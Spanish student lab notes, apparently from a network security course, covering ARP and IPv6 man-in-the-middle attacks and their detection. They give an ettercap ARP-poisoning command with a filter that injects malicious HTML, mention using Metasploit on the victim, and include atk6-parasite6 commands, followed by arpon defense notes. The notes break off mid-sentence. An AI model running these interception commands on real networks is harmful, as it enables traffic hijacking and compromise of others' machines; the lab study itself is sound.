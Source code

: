 

- **Defensa**

```shell
ettercap -i ens33 -Tq -P repoison_arp -p -F filter.ef -w salidaEttercap -M arp:remote /10.11.49.97// /10.11.48.1//
(abre w3m http://www.google.com la victima y deberia aparecer el html malicioso)
descargar el archivo y abrir el metaesploit para reventarle la maquina)
```

#### h) Haga un MITM en IPv6 y visualice la paquetería.

Hace un MITM :

```
atk6-parasite6 ens33
```

Crea trafico ICMP:

```shell
atk6-alive6 ens33
```

#### i) Pruebe alguna herramienta y técnica de detección del sniffing (preferiblemente arpon).

Arpon : proporciona un demonio que securiza el protocolo ARP. Maneja 3 algoritmos:

- **SARPI:** para redes configuradas estáticamente sin DHCP (utiliza una lista estática de
entradas y no permite cambios).
Arpon va a permitir actualizar o refrescar en la tabla arp las entradas estáticas que estén
especificadas en el fichero de configuración.
Permitirá añadir entradas dinámicas a la tabla arp si no están especificadas en el fichero de
configuración y permitirá limpiar todas las entradas sin atender al fichero de configuración.

- **DARPI:** para redes configuradas dinámicamente con DHCP (controla peticiones ARP
  entrantes y salientes, cachea las salientes y establece un timeout para las
  respuestas).
- **HARPI:** para redes configuradas estáticamente y dinámicamente (utiliza dos listas
  simultáneamente).



Añadir a `/etc/arpon`:

```sh
ip del compa
ip del roputer y macs
```



Defensa:

```shell
arpon -i ens33 -S    #Activarlo
kill all arpon       #Apagarlo porque peta con el paso del tiempo
```

-> si después de arpon no va el sniffing: 
   